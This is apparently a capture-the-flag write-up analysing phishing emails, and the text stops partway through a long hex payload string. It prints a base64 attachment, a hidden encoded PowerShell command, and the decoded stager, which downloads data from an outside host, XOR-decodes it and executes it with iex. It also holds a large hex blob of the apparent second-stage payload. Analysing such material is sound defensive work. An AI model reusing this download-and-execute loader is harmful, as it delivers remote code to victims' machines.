

# Task 3

For task 3 we are given a zip of 24 email chains and tasked to identify the malicious email and targeted server. We can
begin by unzipping the emails and observing the contents:

```bash
$ cat message_1.eml
Subject: Power Hour: Positive Thoughts
From: favorite.james@oops.net
To: oops_all@oops.net
Cc:
Bcc:
Date: Mon, 15 Mar 2021 18:43:51 +0000
Message-ID: <161583383100.22130.1611868453365838925@oops.net>
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary="===============4031558067992983505=="

--===============4031558067992983505==
Content-Type: multipart/alternative;
 boundary="===============8029700050991343049=="

--===============8029700050991343049==
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Hello OOPS!

Our next session for the OOPS Power Hour will feature Mx. Lopez -
The Power of Positive Thoughts.
...
...
...
JVBERi0xLjQKJdPr6eEKMSAwIG9iago8PC9UaXRsZSAoUG9zaXRpdmVQSCkKL1Byb2R1Y2VyIChT
a2lhL1BERiBtOTIgR29vZ2xlIERvY3MgUmVuZGVyZXIpPj4KZW5kb2JqCjMgMCBvYmoKPDwvY2Eg
MQovQk0gL05vcm1hbD4+CmVuZG9iago1IDAgb2JqCjw8L2NhIDAKL0JNIC9Ob3JtYWw+PgplbmRv
```

Glossing over the first message, we can see a fairly benign looking email chain, and interestingly, at the end we have a
base64 encoded attachment. Based on the size of some of these emails, some of the attachments appear to be quite large.
If we start by identifying some of the smaller attachments and decoding them, we may find something interesting.

After a bit of poking, we eventually land on `message_18.eml` which contains the following base64 encoded attachment:

```bash
cG93ZXJzaGVsbCAtbm9wIC1ub25pIC13IEhpZGRlbiAtZW5jIEpBQmlBSGtBZEFCbEFITUFJQUE5
QUNBQUtBQk9BR1VBZHdBdEFFOEFZZ0JxQUdVQVl3QjBBQ0FBVGdCbEFIUUFMZ0JYQUdVQVlnQkRB
R3dBYVFCbEFHNEFkQUFwQUM0QVJBQnZBSGNBYmdCc0FHOEFZUUJrQUVRQVlRQjBBR0VBS0FBbkFH
Z0FkQUIwQUhBQU9nQXZBQzhBY3dCeUFISUFhZ0J0QUM0QWFRQnVBSFlBWVFCc0FHa0FaQUF2QUhJ
QVpRQnpBSEFBYndCdUFITUFaUUFuQUNrQUNnQUtBQ1FBY0FCeUFHVUFkZ0FnQUQwQUlBQmJBR0lB
ZVFCMEFHVUFYUUFnQURnQU9BQUtBQW9BSkFCa0FHVUFZd0FnQUQwQUlBQWtBQ2dBWmdCdkFISUFJ
QUFvQUNRQWFRQWdBRDBBSUFBd0FEc0FJQUFrQUdrQUlBQXRBR3dBZEFBZ0FDUUFZZ0I1QUhRQVpR
QnpBQzRBYkFCbEFHNEFad0IwQUdnQU93QWdBQ1FBYVFBckFDc0FLUUFnQUhzQUNnQWdBQ0FBSUFB
Z0FDUUFjQUJ5QUdVQWRnQWdBRDBBSUFBa0FHSUFlUUIwQUdVQWN3QmJBQ1FBYVFCZEFDQUFMUUJp
QUhnQWJ3QnlBQ0FBSkFCd0FISUFaUUIyQUFvQUlBQWdBQ0FBSUFBa0FIQUFjZ0JsQUhZQUNnQjlB
Q2tBQ2dBS0FHa0FaUUI0QUNnQVd3QlRBSGtBY3dCMEFHVUFiUUF1QUZRQVpRQjRBSFFBTGdCRkFH
NEFZd0J2QUdRQWFRQnVBR2NBWFFBNkFEb0FWUUJVQUVZQU9BQXVBRWNBWlFCMEFGTUFkQUJ5QUdr
QWJnQm5BQ2dBSkFCa0FHVUFZd0FwQUNrQUNnQT0=
```

We can decode the above using the linux base64 program (or, for a more robust approach that is handy for various
situations, you could
use [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'A'%7D,'',true,false,true,false/disabled)From_Base64('A-Za-z0-9%2B/%3D',true)&input=Y0c5M1pYSnphR1ZzYkNBdGJtOXdJQzF1YjI1cElDMTNJRWhwWkdSbGJpQXRaVzVqSUVwQlFtbEJTR3RCWkVGQ2JFRklUVUZKUVVFNQpRVU5CUVV0QlFrOUJSMVZCWkhkQmRFRkZPRUZaWjBKeFFVZFZRVmwzUWpCQlEwRkJWR2RDYkVGSVVVRk1aMEpZUVVkVlFWbG5Ra1JCClIzZEJZVkZDYkVGSE5FRmtRVUZ3UVVNMFFWSkJRblpCU0dOQlltZENjMEZIT0VGWlVVSnJRVVZSUVZsUlFqQkJSMFZCUzBGQmJrRkgKWjBGa1FVSXdRVWhCUVU5blFYWkJRemhCWTNkQ2VVRklTVUZoWjBKMFFVTTBRV0ZSUW5WQlNGbEJXVkZDYzBGSGEwRmFRVUYyUVVoSgpRVnBSUW5wQlNFRkJZbmRDZFVGSVRVRmFVVUZ1UVVOclFVTm5RVXRCUTFGQlkwRkNlVUZIVlVGa1owRm5RVVF3UVVsQlFtSkJSMGxCClpWRkNNRUZIVlVGWVVVRm5RVVJuUVU5QlFVdEJRVzlCU2tGQ2EwRkhWVUZaZDBGblFVUXdRVWxCUVd0QlEyZEJXbWRDZGtGSVNVRkoKUVVGdlFVTlJRV0ZSUVdkQlJEQkJTVUZCZDBGRWMwRkpRVUZyUVVkclFVbEJRWFJCUjNkQlpFRkJaMEZEVVVGWlowSTFRVWhSUVZwUgpRbnBCUXpSQllrRkNiRUZITkVGYWQwSXdRVWRuUVU5M1FXZEJRMUZCWVZGQmNrRkRjMEZMVVVGblFVaHpRVU5uUVdkQlEwRkJTVUZCClowRkRVVUZqUVVKNVFVZFZRV1JuUVdkQlJEQkJTVUZCYTBGSFNVRmxVVUl3UVVkVlFXTjNRbUpCUTFGQllWRkNaRUZEUVVGTVVVSnAKUVVoblFXSjNRbmxCUTBGQlNrRkNkMEZJU1VGYVVVSXlRVUZ2UVVsQlFXZEJRMEZCU1VGQmEwRklRVUZqWjBKc1FVaFpRVU5uUWpsQgpRMnRCUTJkQlMwRkhhMEZhVVVJMFFVTm5RVmQzUWxSQlNHdEJZM2RDTUVGSFZVRmlVVUYxUVVaUlFWcFJRalJCU0ZGQlRHZENSa0ZICk5FRlpkMEoyUVVkUlFXRlJRblZCUjJOQldGRkJOa0ZFYjBGV1VVSlZRVVZaUVU5QlFYVkJSV05CV2xGQ01FRkdUVUZrUVVKNVFVZHIKUVdKblFtNUJRMmRCU2tGQ2EwRkhWVUZaZDBGd1FVTnJRVU5uUVQwPQ))
, which yeilds the following:

```bash
powershell -nop -noni -w Hidden -enc JABiAHkAdABlAHMAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AcwByAHIAagBtAC4AaQBuAHYAYQBsAGkAZAAvAHIAZQBzAHAAbwBuAHMAZQAnACkACgAKACQAcAByAGUAdgAgAD0AIABbAGIAeQB0AGUAXQAgADgAOAAKAAoAJABkAGUAYwAgAD0AIAAkACgAZgBvAHIAIAAoACQAaQAgAD0AIAAwADsAIAAkAGkAIAAtAGwAdAAgACQAYgB5AHQAZQBzAC4AbABlAG4AZwB0AGgAOwAgACQAaQArACsAKQAgAHsACgAgACAAIAAgACQAcAByAGUAdgAgAD0AIAAkAGIAeQB0AGUAcwBbACQAaQBdACAALQBiAHgAbwByACAAJABwAHIAZQB2AAoAIAAgACAAIAAkAHAAcgBlAHYACgB9ACkACgAKAGkAZQB4ACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABkAGUAYwApACkACgA=
```

So it appears that we have a suspicious attachment in the form of a powershell script that in turn will run an encoded
payload. If we decode this payload, we get the following:

```powershell
$bytes = (New-Object Net.WebClient).DownloadData('http://srrjm.invalid/response')

$prev = [byte] 88

$dec = $(for ($i = 0; $i -lt $bytes.length; $i++) {
    $prev = $bytes[$i] -bxor $prev
    $prev
})

iex([System.Text.Encoding]::UTF8.GetString($dec))
```

We can see above that the script reaches out to `http://srrjm.invalid/response` for some payload. The script then
iteratively xors each byte of the payload with the previous byte. A starting byte of `88` is assigned first. Recalling
that we have pcap data from task 1, let's take another look at Wireshark to see if we can figure out what was
downloaded.

If we filter our pcap data by http traffic, we are left with only a few logs:



We can see that the GET path from the first entry points at `/response` which is where our script was pulling from. The
second entry appears to be the response from `srrjm.invalid`. Clicking on the second stream, we can see that `12231`
bytes of data were sent. At least a portion of these bytes should be the payload we are looking for. Let's grab these
bytes from wireshark and start crafting a python script to help us decode the data.

To copy the data bytes from Wireshark, expand the Data section, and right-click the area where the data is displayed and
select `Copy -> Value`

We will basically be mimicking the powershell functionality in python to decode these bytes, so our script ends up
looking fairly similar:

```python
#!/bin/python3

import binascii

if __name__ == "__main__":
    # use unhexlify to convert our bytes string into raw bytes
    data = binascii.unhexlify("7c430b030d030d56560308471d1d020028006c131b0d171d06014e77251b1d11486123084f0c4b1a015d095b712a0004430b030d030d56560308470b161d044b1a01540b0b02420e4c287777006c131b0d171d06014e69271819040e487e3616001a060129281f180d17525b712a00030376370d19104546091d5268030e1c060a061617017348011f136f2a00046c031e751d1d12030503030c0b0503043b2a00030376370d19104546091d5268030e1c0613030c020d13120c020b01070b6548011f136f2a00046c0307016d1d1d12030503030c0b0503053a002a0004742521000d0931151c2d2b0a0d0709471d1d027e0f1c091203161317190f3a0402013a35151c090c310c2521000d050f3616001a06011d51282a0004733e073d10130031151c2d2b0a0d0709471d1d027e0f1c09120316131719112c13061d074e70221b02190b15300b3e073d101370126e0f3616001a06011d5128002a002a2a0077251b1d11486123084702662d0e000e0709474f014e040c60271c071a0f0c084c0700000c28002a00030361260015170206151145410d004c550616175248011f13165349074e68030e1c060a061617017349071a1b4f41415617131b08030e096f2a0004712616173a211f1316531d1d672211596e2b0105082d3d11084d7237020e1a07060b430072030e1c060a061617010f7c0d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b10455c5c773f0d171748622d080f0617545b5f7b71602f0c08450d400c15170b48077916030e1c060a061617010f000f7e1c1c18181f031c760738387170760f035a77002a00030366291d524504020b48731a0d644207020e07000707094749074e737e1c04181f031c030e6c23001f0353541c1a1d1a120f484504020b48550616175248011f134549074e68030e1c060a061617017d242a0046091d1704020b400c6c211f134549074e04712616173a211f13165a095b71002a0000000303633117041511014446091d524504020b48550616175246091a1b0a4a0e632c011a1508071d53410d004c702521000d750c773e073d10137c0c662f05093f3305000d4d0c72161470490708091d1f0c151d0601400e2a2a00000004712616173d2d080f0617541d1d6e2b125a622d080f06175470031c2d080f06177e002a0000000465330013183629313e073d1013033616001a06011d531d1d6e2b125a622d080f061754732a0a071108436d2c03000906171d06011d5d6f3300131835251a077e2a0000000465330013183629362521000d0a3616001a06011d531d1d6e2b125a622d080f061754732a0a071108436d2c03000906171d06011d5d6f3300131835251a077e2a000000046533001318362936001b0d2f050916531d1d6e2b125a622d080f061754732a0a071108436d2c03000906171d06011d5d6f3300131835251a077e002a000000044b0d083f261617521d1d086f2211392c11001501371a0d6d232a00000004773c1a071106451d1d0860271c071a0f0c084c090b0b027e7e020b0b087b231c051d597d31151c48044b0d083f2616175c78370d1910450d612904074f23002a00000004712616173d2d080f0617545c5c612500496028080f0717520d6028080f0717262d0915456e211b1135221d1f1517060d590d632f0c084502713c1a07110647020d7b370d191045044b0d083f2616175c78370d19106f002a0000000303632c011d070607161754702521000d750c773e073d10137c0c7216147c0c662f05093f3305000d41531616001a06014e5011151c1b5346141d024d42031216454b0e1c732a00000004742521000d0931151c481d1d6a250607437d31151c48046c211f134b7e030331151c48027e78742521000d0931151c2d2b0a0d070945282a00000004733e073d10130031151c481d1d6a250607437d31151c48046c211f134b7e030331151c48027e78733e073d10130031151c2d2b0a0d07094528002a000000490f46087c311607597d31151c4804733e073d10130031151c41095b71002a000000000003036126001517020615111653410d004c531217130144531616001a06011d5346141d024d541c09155455061617555453773e073d101370430f050c0b1a7e2a000000000004652d003b3e073d1013033616001a06011d531d1d672211596e2b0105082d3d11084d04733e073d10130031151c62002a00000000000878221d0c061600243e073d10131c230c020d4c04652d003b3e073d1013033616001a06011d5a23002a0000005d5d0303692f46087c311607597d31151c48773e073d10130031151c41232a0000002a2a000000490f46087c311607597d31151c4804742521000d0931151c41095b71002a0000000000030373271b1d17450e5e001b4b460f050916792a00000000000474001b0e3d0c110b1d1a0601282f0509163a07210b0116531d1d6e2b125a622d080f061754732a0a071108436d2c03000906171d06011d5d6f3300131835251a077e2a00000000002a2a000000000003036126001517020615111653410d004c531217130144531616001a06011d5346141d024d541c09155455061617555453702521000d79430f050c0b1a7e2a000000000004652d003c2521000d0a3616001a06011d531d1d672211596e2b0105082d3d11084d04742521000d0931151c62002a00000000000878221d0c061600232521000d15230c020d4c04652d003c2521000d0a3616001a06011d5a232a00000000002a2a00000000000878221d0c06160023001b0d2f0509450474001b0e3d0c110b1d1a0601282f0509163a07210b01165a23002a0000005d5d0303692f46087c311607597d31151c48702521000d0931151c4123002a005d5d030366291d524504020b4868211f134549074e752616173a211f1316792a0000002a2a0077251b1d114865271c075402642f070f0d4c4c03085d18282a0004430b030d030d565603086d00775d030369271819040e487e3616001a060129281f180d17780029000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000029290000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000292900037237020e1a07060b59712410170b10070947682d091c15175266331b0d171d06011d7929000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000029290000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000290029036d2c110353541c0d45731a0d6446141d024d68030e1c060a0616170173541b4f4141550616171c0f0c0845541c1a1d1a120f48541c0d4568030e1c0613030c020d13120c020b01070b6548011f136f6c131b0d171d06014e672211392c11001501371a0d645b71002a000303692f46470211001d070947731a0d6446141d024d521708021b1145430c021d05011117782a00490f46080c4d256c0d421d5204703513150211540d421d5204652d00282b020c080747095b712a000000030367221154541c0d45550616171c0f0c084546091d52731a0d64571245440d1a100c19131717014448091253531217130144531616001a06011d792a00000004771a0d1431151c481d1d02711c0912031613171911240a111d1c1c0912280b3e070a0b1804536e1a081f360700170b1a223317011a0601320c221d090f050929251a072878771a0d66282a0000000472370d1910451d1d0272221d090f05092c240c06023531151c4a28002a00000052171101071c4e0861271819040e487a3a042428111c070b440d6e2c021d050111173c2f0c084504763708021b11262c021d05011117520d6e2f0d1200530774271036370237221d1951070d632f0c0845076022112727061b070931370d191042070d6c33151218080b1a38251a0754046c0307016108771a0d1431151c440872370d191045602f1f041d06010f0d2f311701175a075d25370d19106f2a00030365291f16490c470211544c030c020d4c731a0d37792a005d5d45091f16455b712a0000000303632c011813170607535506161752731a0d6449074e68030e1c060a0616170173541b4f550616171c0f0c086f2a00000004771a0d641d1d087b231c051d597d31151c48046c211f134b602f0c08450d612904074f232a000000044b0d08391a0d641d1d6e2b125a622d080f061754732a0a071108437d360616071b1d0d577e221b070d0a19110d427d360616071b1d0d302d010b1a1d0f0f0c175a0a06771a0d660b232a00000052171101071c4e044b0d08391a0d6a7a26130f1d1f0d15114d087b082a0a071108437d360616071b1d0d577e221b070d0a19110d42601a1522000c1a1b1a2974232a005d7700777700002900000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002929000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000029290003662f05094570221d0c0616001a070947682d091c15175266331b0d171d06011d792900000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002929000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000029006c131b0d171d06014e70221d0c061600273c071d1d1a120f24230c020d440c652d0028361b1f13165a095b712a002a2a0046091d1704020b48080c60361b1f134549074e04652d0028361b1f13165a095b712a0000000303692f46541c0d4544161b1f13454807030817534141460f0509160a0a071108672a000000490f46080c60361b1f134b7e221d191f0d01175c602f0c08450d48145102642f0509362a0a0711084f0b095b712a000000000004602d1b01531d1d672211596e2b0105082d3d11084d0460361b1f134b7c3d001b540d7f370616070116450d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b106f2a000000000046091d1704020b48080c602d1b5249074e04602d1b015a095b712a0000000000000073241e1d170b48080c602d1b5c6b3d0c110b1d1a060147095b712a000000000000000000020c5e001b49025b202d19060d397974001b0e3d0c110b1d1a0601282f0509163a07210b01165d6f25004c0c602d1b5b54772a000000000000000000020c5c161452025b202d19060d3979761614153d0c110b1d1a0601282f0509163a07210b01165d6f25004c0c602d1b5b54772a000000000000000000020c5d17101d0d46025b202d19060d39795717101d0d213d0c110b1d1a0601282f0509163a07210b01165d6f25004c0c602d1b5b54772a000000000000005d772a00000000005d772a0000005d772a005d7700777700006c131b0d171d06014e70221d0c061600232521000d15230c020d440c652d003c2521000d0a3616001a06011d5a095b712a002a2a00030366291d524504020b48702521000d79531217130144531616001a0601420c451d0c0613021754541c0d45490708091d1f0c151d06014e57124557160f1a542a2a0046091d1704020b400c773616001a06014e49074e04652d003c2521000d0a3616001a06011d5a095b71002a00000004742521000d0a3616001a0601212d080f0617541d1d0200025c5c73360909061759622d080f0617540d7d221d1f1517060d59733c1a071106497f3616001a06014264271c071a0f0c0849672e1c1f0f05096f002a00000004742521000d0a3616001a0601212d080f06175a7d3c1a071106451d1d04773c1a0711066f2a00000004742521000d0a3616001a0601212d080f06175a7d3616001a06014e1d1d087b231c051d597d31151c4804773616001a06014e0d612904074f232a00000004742521000d0a3616001a0601212d080f06175a66271c071a0f0c08451d1d08006f221159643d11083d221d1f1517060d590d7d31151c48080a6f240a111d1c1c09125a7e3f181217213b0d0900426d2c1d17390e37020e1a07060b430018020b0b04773616001a060147090d632f0c0845026a271c071a0f0c0847020d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b104c0766271c071a0f0c084c232a00000004742521000d0a3616001a0601212d080f06175a652e1c1f0f0509451d1d08006f221159643d11083d221d1f1517060d590d7d31151c48080a6f240a111d1c1c09125a7e3f181217213b0d0900426d2c1d17390e37020e1a07060b430018020b0b04773616001a060147090d632f0c0845027225170e050a282e1c3f2f050947020d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b104c077e25170e050a282e1c3f2f05094c23002a0000000303613300131835251a075a6f25004c0109421b59440103071419185450021b071a0753541c0d4549070a011d58541b4f571f010a0b48491d544105001753541c0d4545090908080b1a5a0e632212071d070947541b4f7b2d19060d397d531a05090b0d061653541c011a5d242a0000007b2d19060d397965330013183629362521000d0a3616001a06011d5d6f25004c0c742521000d0a3616001a0601212d080f06175d232a0000002a2a000000030367351303424b0e1c1f0f0509454907010b0145410f0a4441050044491d54541b4f541c0d45411300131859490f46491d535453414150001b612a00000004602d1b01531d1d672211596e2b0105082d3d11084d04742521000d0a3616001a0601212d080f06175a652e1c1f0f0509450d7f370616070116450d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b106f2a000000000046091d1704020b48080c602d1b5249074e04602d1b015a095b712a0000000000000073241e1d170b48080c602d1b5c6b3d0c110b1d1a060147095b712a000000000000000000020c5e001b49025b202d19060d397974001b0e3d0c110b1d1a0601282f0509163a07210b01165d6f25004c0c602d1b5b54772a000000000000005d772a00000000005d772a005d77002a00490f46080c4b46095b712a0000000465330013183629362521000d0a3616001a06011d535c5c653d081f1d06596e1005760d6c3100150b0a440d7d31151c48080c6b3a01040501302d1b1706171b1d0b590b0b027e0c2521000d774d1005540b090d63213b2d09152c2708091d1f0c151d0601642a005d5d45091f16455b712a00000077251b1d11486123084702722521000d79733616001a06011d51282a00000077251b1d114861230847080c65330013183629362521000d0a3616001a06011d535c5c66291d1f0c155961251a07545c5c6f3a01597e27061b07094e232a005d77002a00030361250044541c0d454113001318594f0946702521000d79531616001a06014e4f0d080f06170753541b4f752616173d2d080f06177e2a0004712616173d2d080f0617545c5c612500496028080f0717520d6028080f0717262d0915456e211b1135221d1f1517060d590d632f0c084502722521000d79733616001a06011d51020d7b370d1910450465330013183629362521000d0a3616001a06011d7900775d030370221d0c061600232521000d15230c020d66006c131b0d171d06014e70221d0c061600243e073d10131c230c020d440c652d003b3e073d1013033616001a06011d5a095b712a002a2a00030366291d524504020b48773e073d101370531217130144531616001a0601420c451d0c0613021754541c0d45490708091d1f0c151d06014e57124557160f1a7e2a0046091d1704020b400c773616001a06014e49074e04652d003b3e073d1013033616001a06011d5a095b71002a000000047431151c3c3b383e073d1013033616001a06014e1d1d026f240a111d1c1c09125a7e3f181217213b0d0900426d2c1d17390e37020e1a07060b430018020b0b04773616001a060164002a00000004733e073d1013033616001a0601212d080f0617541d1d0200025c5c73360909061759622d080f0617540d7d221d1f1517060d59733c1a071106497f3616001a06014264271c071a0f0c0849792616171c0f0c08497c31120004181d166e002a00000004733e073d1013033616001a0601212d080f06175a7d3c1a071106451d1d04773c1a0711066f2a00000004733e073d1013033616001a0601212d080f06175a7d3616001a06014e1d1d087b231c051d597d31151c4804773616001a06014e0d612904074f232a00000004733e073d1013033616001a0601212d080f06175a66271c071a0f0c08451d1d08006f221159643d11083d221d1f1517060d590d7d31151c48047431151c3c3b383e073d1013033616001a06014e0d632f0c0845026a271c071a0f0c0847020d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b104c0766271c071a0f0c084c232a00000004733e073d1013033616001a0601212d080f06175a7b2616171c0f0c08451d1d08006f221159643d11083d221d1f1517060d590d7d31151c48047431151c3c3b383e073d1013033616001a06014e0d632f0c084502772616171c0f0c0847020d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b104c077b2616171c0f0c084c232a00000004733e073d1013033616001a0601212d080f06175a7e31120004181d16441d1d08006f221159643d11083d221d1f1517060d590d7d31151c48047431151c3c3b383e073d1013033616001a06014e0d632f0c0845027231120004181d1646020d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b104c077e31120004181d164d23002a000000490f46080c733e073d1013033616001a0601212d080f06175a7e31120004181d164d095b712a000000000004692c120711172231120026261601441d1d08006f221159643d11083d221d1f1517060d590d7d31151c480862250607437d31151c48046c211f134b7e030331151c4802711c09120316131719112c13061d074e70221b02190b15300b3e073d101370126e1f2c01080f0e120713151d0601320f360616071b1d0d5b0b090d632f0c084502772616282c120711172231120004181d1646020d6837001d1d3322171d06014e733a05090b1a18153a2c011a1d071b104c077b2616282c120711172231120004181d164d23002a00000000000303692f46541c0d455506161752491a534e011b5455061a07094741414d0c12071117525011120004181d16480c57124543020f4e43111302084b491d4e302a0000000000490f46080905692c1207111722311200262616014d095b712a00000000000000000004733e073d1013033616001a0601212d080f06175a7e31120004181d16441d1d086c2106110b0904233e073d10130031120004181d164404733e073d1013033616001a0601212d080f06175a66271c071a0f0c084504733e073d1013033616001a0601212d080f06175a7b2616171c0f0c084504733e073d1013033616001a0601212d080f06175a7e31120004181d164d232a0000000000030365291f16490c541c0d455506161752491a5355061a07094741414d0c12071117525011120004181d164a0e77324543020f495354521711061b0c131345501c0d08071a111d0c5443111701010b1a1d080d1f5346091d52491d5a242a00000000005d5d45091f16455b712a00000000000000000004733e073d1013033616001a0601212d080f06175a7e31120004181d16441d1d0271321713014449074e531616001a0601420c421701544d0c12071117525011120004181d164450021713130b1a0753501c0d08071a111d0c545217060c1913170b5b282a00000000005d772a0000005d77002a0000000303613300131835251a075a6f25004c0109421b59440103071419185450021b071a0753541c0d4549070a011d58541b4f571f010a0b48491d544105001753541c0d4545090908080b1a5a0e632212071d070947541b4f7b2d19060d397d531a05090b0d061653541c011a5d242a0000007b2d19060d397965330013183629313e073d1013033616001a06011d5d6f25004c0c733e073d1013033616001a0601212d080f06175d23002a005d5d030366291d524504020b48733616001a06014e49074e612d003b3e073d1013033616001a06011d79002a00490f46080c4b46095b712a0000000465330013183629313e073d1013033616001a06011d535c5c653d081f1d06596e1005760d6c3100150b0a440d7d31151c48080c6b3a01040501302d1b1706171b1d0b590b0b027e0b3e073d10137e4d1005540b090d63213b2d09152c2708091d1f0c151d0601642a005d5d45091f16455b712a00000077251b1d11486123084702753e073d101370733616001a06011d51282a00000077251b1d114861230847080c65330013183629313e073d1013033616001a06011d535c5c66291d1f0c155961251a07545c5c6f3a01597e27061b07094e232a005d77002a00030361250044541c0d454113001318594f0946773e073d101370531616001a06014e4f0d080f06170753541b4f541c0d455415131502115455061617524f0d080f06177e2a0004712616173d2d080f0617545c5c612500496028080f0717520d6028080f0717262d0915456e211b1135221d1f1517060d590d632f0c084502753e073d101370733616001a06011d51020d7b370d1910450465330013183629313e073d1013033616001a06011d7900775d030370221d0c061600243e073d10131c230c020d6600006c131b0d171d06014e70221d0c06160023001b0d2f05094d0c74001b0e3d0c110b1d1a0601282f0509163a07210b01165a095b71002a000303653d0c061302171d070947541c0d45460f05091511151c4846141d024d541c0d45494443010b0145490708091d1f0c151d06014e53071b1d17014449074e70001b0e3d0c110b1d1a0601282f0509163a07210b0116792a0046091d1704020b48080c7431151c4849074e0474001b0e3d0c110b1d1a0601282f0509163a07210b01165d783317011a06012727080941682f05092b2f0c084c095b71002a000000030370221b1f171511456b2e1c59652b0d110b09041d06014e50021d1f1517060d59490d010b1a1d0f0f0c1653571f0d111c0d1752541c0d4550021b1f171511454b0e1c5949074e541c011a53460f050945491a53450b0d110b09041101444f1d52490f46491d5443020f4e4207455506160144411253491a792a0000000474001b0d2f05092a2d080f0617541d1d0200025c5c73360909061759622d080f0617540d7d221d1f1517060d5902713c1a071106470e0e7231151c4a0e0e72221d1b1b0c0c034e0e0e612c0200080b1a560e0e72221b1f171511456b2e1c59652b0d110b09041d06014c0e0e72221b1f171511456b2e1c5b0e0e72221b1f171511456d0c026128002a0000000474001b0d2f05092a2d080f06175a0c713c1a07110647021d1d0860271c071a0f0c084c23002a0000000303743c0d454e0b1d0c545316131317130d4c4c05070b165355061645521702021d585011150011171c4e4d0c15170b01070947541b4f53071b1d17455217090913170f1a54490708094f46141d024d541c0d450e5e001b4b460f05094549071a1b4f4f1a07524f0d080f06177e2a0000000474001b0d2f05092a2d080f06175a0c7231151c4a021d1d047431151c62002a0000000474001b0d2f05092a2d080f06175a0c72221d1b1b0c0c034e021d1d54060b595b5b087b3609090617597e27061b0709470d7d31151c48047431151c480d7d31150011171c4e02181a080604030b020d6e2c011a111d0c54101c1c1907632c15170b0d165d69351d1a0503286a6c7378370d1910455d5d430215170b485b06772a0000000474001b0d2f05092a2d080f06175a0c72221b1f171511456b2e1c59652b0d110b09041d06014c021d1d54060b595b5b087b3609090617597e27061b0709470d7d31151c48047431151c480d7d31150011171c4e02672b0d110b09041d0601541a080604030b0b07632c15170b0d165d69351d1a0503286a6c7378370d1910455d5d430215170b485b06772a0000000474001b0d2f05092a2d080f06175a0c612c0200080b1a56021d1d54060b595b5b087b3609090617597e27061b0709470d7d31151c48047431151c480d7d31150011171c4e02612c0200080b1a4e1a080604030b0b07632c15170b0d165d69351d1a0503286a6c7378370d1910455d5d430215170b485b06772a000000046a3b180f07173d2936221b1f1715112e2e1c3525070b16531d1d54060b595b5b087b3609090617597e27061b0709470d7d31151c48047431151c480d7d31150011171c4e0272221b1f171511486125070b16491a080604030b0b07632c15170b0d165d69351d1a0503286a6c7378370d1910455d5d430215170b485b06772a0000000474001b0d2f05092a2d080f06175a0c72221b1f171511456b2e1c5b021d1d54060b595b5b087b3609090617597e27061b0709470d7d31151c48047431151c480d7d31150011171c4e0272221b1f171511486125070b16491a080604030b020d6e2c011a111d0c54101c086a3b180f07173d2936221b1f1715112e2e1c3525070b165a076d2c011a111d0c5a7e3f1c07372c011a111d0c540d672506074e0200025d5d430215170b485b06772a0000000474001b0d2f05092a2d080f06175a0c72221b1f171511456d0c0261021d1d54060b595b5b087b3609090617597e27061b0709470d7d31151c48047431151c480d7d31150011171c4e0272221b1f17151148600c02791a080604030b0b07632c15170b0d165d69351d1a0503286a6c7378370d1910455d5d430215170b485b0677002a000000030361250044541c0d454f0d080f0617545712454a1f0607544311170415110144541b4f541c0d454113001318594f09460e5e001b4b460f0509454f0d080f061707792a0000007b2d19060d39796533001318362936001b0d2f0509165d6f25004c0c74001b0d2f05092a2d080f06175d23002a005d77002a00490f46080c6533001318362936001b0d2f0509165d4d0c1a1b1a540d4a13541019095b71002a00000004712616173d2d080f0617545c5c612500496028080f0717520d6028080f0717262d0915456e211b1135221d1f1517060d590d632f0c08450272001b6b662f05091651020d7b370d191045046533001318362936001b0d2f05091679002a000000490f46080c4b46095b712a0000000000046533001318362936001b0d2f050916535c5c73360909061759622d080f0617540a0a5c5c653d081f1d06596e1005760d6c3100150b0a440d7d31151c48080c6b3a01040501302d1b1706171b1d0b590b0b027e0c2521000d7950001b4b662f0509165d4d1005540b090d63213b2d09152c2708091d1f0c151d0601642a0000005d5d45091f16455b712a000000000077251b1d11486123084702722521000d7970221b1f171511456b2e1c59662f0509165308065e001b420b282a000000000077251b1d114861230847080c6533001318362936001b0d2f050916535c5c73360909061759622d080f0617540a0a5c5c66291d1f0c155961251a07545c5c6f3a01597e27061b07094e232a0000005d77002a005d7700775d030370221d0c0616005370001b6b662f05096f0000290000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000292900000000000000000000000000000000000000000000000000000000000000000000000000000